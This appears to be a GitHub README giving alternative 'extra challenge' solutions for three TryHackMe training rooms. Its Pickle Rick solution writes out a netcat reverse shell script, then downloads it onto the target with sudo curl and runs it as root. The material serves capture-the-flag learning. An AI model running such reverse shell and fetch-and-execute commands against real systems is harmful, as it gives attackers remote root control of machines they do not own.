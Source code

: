 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#PickleRick">Pickle Rick</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code class="language-plaintext highlighter-rouge">strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code class="language-plaintext highlighter-rouge">ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code class="language-plaintext highlighter-rouge">cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="PickleRick"><a href="https://www.tryhackme.com/room/picklerick">Pickle Rick</a></h4>
When the web command portal is found, the clue encourages you to keep working with this access. There is another method that is easier.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Always check the permissions for your user.

<details>
<summary>Hint 2</summary>
  
A shell for the machine would remove limitations imposed on the web command portal.

<details>
<summary>Solution</summary>

It's possible to finish the Room quickly with the web command portal after checking the www-data user's <code class="language-plaintext highlighter-rouge">sudo -ll</code> and learning they have root access through sudo without a password. It's also possible to get a root shell by creating a local file called shell.sh as:<br>
#!/bin/bash<br>
mkfifo /tmp/lol<br>
nc 10.10.10.10 8008 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol<br>
<br>
Serve from local with <code class="language-plaintext highlighter-rouge">python3 -m http.server 8009</code> then pull it to the target through the web command portal with:<br>
<code class="language-plaintext highlighter-rouge">sudo curl http://10.10.10.10:8009/shell.sh -o /tmp/shell.sh</code><br>
 After the transfer, stop the local http.server and replace with a local listener to catch the shell using <code class="language-plaintext highlighter-rouge">nc -nlvp 8008</code>.<br>
Finish by using the web command portal to modify the file as <code class="language-plaintext highlighter-rouge">sudo chmod +x /tmp/shell.sh</code> and then execute with <code class="language-plaintext highlighter-rouge">sudo /tmp/shell.sh</code> to connect.<br>
 
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code class="language-plaintext highlighter-rouge">wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code class="language-plaintext highlighter-rouge">grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code class="language-plaintext highlighter-rouge">sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>

